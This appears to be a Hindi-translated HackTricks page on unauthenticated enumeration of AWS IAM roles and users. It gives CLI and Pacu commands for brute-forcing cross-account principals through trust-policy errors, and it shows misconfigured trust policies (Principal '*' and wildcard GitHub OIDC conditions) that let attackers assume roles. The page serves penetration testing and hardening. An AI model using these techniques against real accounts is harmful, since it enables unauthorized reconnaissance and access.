 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Enumerate Roles & Usernames in an account

### ~~Assume Role Brute-Force~~

{% hint style="danger" %}
**यह तकनीक अब काम नहीं करती** क्योंकि यदि भूमिका मौजूद है या नहीं, तो आपको हमेशा यह त्रुटि मिलती है:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

आप **इसका परीक्षण कर सकते हैं**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

**आवश्यक अनुमतियों के बिना भूमिका को मानने का प्रयास** AWS त्रुटि संदेश को सक्रिय करता है। उदाहरण के लिए, यदि अनधिकृत है, तो AWS यह वापस कर सकता है:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
यह संदेश भूमिका के अस्तित्व की पुष्टि करता है लेकिन यह संकेत करता है कि इसकी असुमे भूमिका नीति आपकी असुमे की अनुमति नहीं देती। इसके विपरीत, **एक गैर-मौजूद भूमिका को असुमे करने की कोशिश करने से एक अलग त्रुटि होती है**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
दिलचस्प बात यह है कि **मौजूदा और गैर-मौजूदा भूमिकाओं के बीच अंतर करने की यह विधि** विभिन्न AWS खातों के बीच भी लागू होती है। एक मान्य AWS खाता आईडी और एक लक्षित शब्द सूची के साथ, कोई भी खाते में मौजूद भूमिकाओं को बिना किसी अंतर्निहित सीमाओं का सामना किए सूचीबद्ध कर सकता है।

आप इस [स्क्रिप्ट का उपयोग करके संभावित प्रिंसिपल्स को सूचीबद्ध कर सकते हैं](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) इस समस्या का दुरुपयोग करते हुए।

### ट्रस्ट नीतियाँ: क्रॉस अकाउंट भूमिकाओं और उपयोगकर्ताओं के लिए ब्रूट-फोर्स

एक **IAM भूमिका की ट्रस्ट नीति को कॉन्फ़िगर या अपडेट करना इस बात को परिभाषित करना शामिल है कि कौन से AWS संसाधन या सेवाएँ उस भूमिका को ग्रहण करने की अनुमति दी गई हैं** और अस्थायी क्रेडेंशियल प्राप्त करें। यदि नीति में निर्दिष्ट संसाधन **मौजूद है**, तो ट्रस्ट नीति **सफलता से** सहेजी जाती है। हालाँकि, यदि संसाधन **मौजूद नहीं है**, तो एक **त्रुटि उत्पन्न होती है**, जो बताती है कि एक अमान्य प्रिंसिपल प्रदान किया गया था।

{% hint style="warning" %}
ध्यान दें कि उस संसाधन में आप एक क्रॉस अकाउंट भूमिका या उपयोगकर्ता निर्दिष्ट कर सकते हैं:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

यह एक नीति का उदाहरण है:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

यह **त्रुटि** है जो आपको तब मिलेगी जब आप एक **भूमिका का उपयोग करते हैं जो मौजूद नहीं है**। यदि भूमिका **मौजूद है**, तो नीति **बिना किसी त्रुटि के** **सहेजी** जाएगी। (त्रुटि अपडेट के लिए है, लेकिन यह बनाने के समय भी काम करती है)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
आप इस प्रक्रिया को स्वचालित कर सकते हैं [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

हम [Pacu](https://github.com/RhinoSecurityLabs/pacu) का उपयोग कर रहे हैं:

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* उदाहरण में उपयोग किया गया `admin` भूमिका एक **भूमिका है जो आपके खाते में है जिसे pacu द्वारा अनुकरण किया जाएगा** ताकि वह enumeration के लिए आवश्यक नीतियों को बना सके

### Privesc

यदि भूमिका गलत तरीके से कॉन्फ़िगर की गई है और किसी को भी इसे मानने की अनुमति देती है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
The attacker could just assume it.

## Third Party OIDC Federation

कल्पना करें कि आप एक **Github Actions workflow** पढ़ने में सफल होते हैं जो **AWS** के अंदर एक **role** तक पहुँच रहा है।\
यह विश्वास एक भूमिका तक पहुँच प्रदान कर सकता है जिसमें निम्नलिखित **trust policy** है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
यह ट्रस्ट नीति सही हो सकती है, लेकिन **अधिक शर्तों की कमी** आपको इसे अविश्वसनीय बनानी चाहिए।\
यह इसलिए है क्योंकि पिछले भूमिका को **Github Actions से कोई भी** ग्रहण कर सकता है! आपको शर्तों में अन्य चीजें भी निर्दिष्ट करनी चाहिए जैसे कि संगठन का नाम, रिपॉजिटरी का नाम, वातावरण, शाखा...

एक और संभावित गलत कॉन्फ़िगरेशन है **एक शर्त जोड़ना** जैसे कि निम्नलिखित:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
ध्यान दें कि **वाइल्डकार्ड** (\*) **कोलन** (:) से पहले है। आप **org\_name1** जैसे एक संगठन बना सकते हैं और एक Github Action से **भूमिका ग्रहण** कर सकते हैं।

## संदर्भ

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें PRs को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में सबमिट करके।

</details>
{% endhint %}
